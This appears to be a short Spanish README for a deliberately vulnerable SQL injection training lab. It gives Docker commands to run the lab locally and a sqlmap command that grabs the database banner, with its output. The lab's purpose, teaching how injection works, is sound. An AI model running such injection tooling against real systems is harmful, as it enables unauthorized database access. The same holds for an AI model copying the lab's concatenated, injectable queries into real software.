 # SQL Injection

Descargar y Montar el servidor desde Docker usando un volumen con el Codigo Fuente de Github para editarlo:

```bash
git clone https://github.com/IngenieroRicardo/SQLInjection
docker pull ghcr.io/ingenieroricardo/sqlinjection:latest
docker run --publish 8080:80 -v ./SQLInjection:/app ghcr.io/ingenieroricardo/sqlinjection:latest
```

<hr>

Al tener las variables concatenadas puedes hacer inyeccion SQL:

```bash
sqlmap -u "http://127.0.0.1:8080/servidor.php?nombre=yo&mensaje=hola" -b

5.5.62-0ubuntu0.14.04.1-log
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.12
banner: '5.5.62-0ubuntu0.14.04.1-log'
```
